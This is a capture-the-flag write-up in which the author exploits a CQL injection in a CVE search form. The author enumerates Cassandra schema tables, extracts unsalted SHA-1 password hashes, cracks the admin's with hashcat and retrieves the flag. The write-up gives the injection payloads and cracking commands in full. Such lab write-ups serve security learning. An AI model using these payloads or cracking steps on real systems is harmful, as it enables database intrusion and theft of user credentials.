




# CVE Finder Engine

  



## First steps

We can see a wonderful CVE finder that has interesting vulnerabilities to present to us.



When we search for `CVE-2018-6242` (as per the example), we can see that a request is made, containing the fields `query=CVE-2018-6242&fields=code%2Cname%2Crelease_date%2Cseverity`. Since `%2C` is the encoding for the comma, it really feels like the request is a simple list of fields that is put as is in the SQL query. When we remove the `query` value, we get the whole list of CVE on the website. Nothing interesting yet.

What I wanted to find immediately was the list of users on the website. I felt like a guessing master and tried `query=&fields=username AS code%2Cpassword as name FROM users; --` with unfortunately not the list of usernames.

However, the server responded with `An error occurred during the execution of the CQL request.` which gave me a wonderful information: this is CQL, not SQL. Some of my SQLi payloads would not work, so I decided to give up here and learn a little bit more about Cassandra and its CQL language.

## Making sure we have Cassandra

I wanted to get a simple text and see if it worked, and it didn't with a simple SQL-like query.

```sql
'text' AS code
```

Which is very unfortunate, but SO gave me a workaround.

```sql
blobAsText(textAsBlob('test')) as code
```

It worked properly! I'm now convinced I really work with a Cassandra database and the CQL language. We're one step closer to success!


## Discovering keyspaces, tables and columns

The next step is to stop guessing what exists and what doesn't, and actually try to find information about the database we're working with. With the help of many SO questions and [Datastax documentation](https://docs.datastax.com/en/dse/6.0/cql/cql/cql_using/useQuerySystemTable.html), I have worked a new payload.

```sql
keyspace_name AS code FROM system_schema.keyspaces ALLOW FILTERING; --
```

This is supposed to give us all keyspaces existing, to narrow down our table research and immediately evict internal tables that would hide the results I'm searching for.

```
system_auth     
system_schema     
system_distributed     
system     
system_traces     
database
```

We can see the `database` keyspace that seems to be what we're looking for (all other keyspaces seem to be internal given the `system` prefix). Let's retrieve the tables.

```sql
table_name AS code FROM system_schema.tables WHERE keyspace_name='database' ALLOW FILTERING; --
```

```
cve     
users   
```

And now the columns' name.

```sql
column_name AS code FROM system_schema.columns WHERE keyspace_name='database' AND table_name = 'users' ALLOW FILTERING; --
```

```
id     
name     
password    
```

## Extracting user information and connecting

Now that we know where to look, with a simple payload we can retrieve the password.

```sql
name, password as code FROM users ALLOW FILTERING; --
```

```
54b58118ed59617f30d207004be6fa87e7f129a5     test
236562b8c015d15f2ccae718e7b333f88ab6d459     elf
f005706dc98a95af199603065a43ead8ba249dc6     admin
```

We can see hashes (without salt) for our accounts, with the length of a SHA-1 hash. I was afraid I would be confronted to hashes, because I only know two ways to retrieve the password:

- Having enough passwords to see a pattern and imagine it is a weak password

- Bruteforce my way in

And since we don't have enough passwords to analyse identical passwords, I am left with only one choice: bruteforcing.

I've created a file names `passwordstofind` containing all three hashes, and launched my favorite `hashcat` command.

```bash
hashcat -m 100 -a 0 passwordtofind  /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```

This command does not work on all three passwords and I am now very sad. But there is one last bruteforce that I want to attempt.

```bash
hashcat -m 100 -a 3 passwordtofind
```

After a few seconds, I have an interesting output: `f005706dc98a95af199603065a43ead8ba249dc6:s0w34k`, which is the admin's hash. I login with `admin:s0w34k` and am greeted with this wonderful message.



Flag `RM{CQL_1nj3ct10n_+_w34k_p4ssw0rd_ftw}`
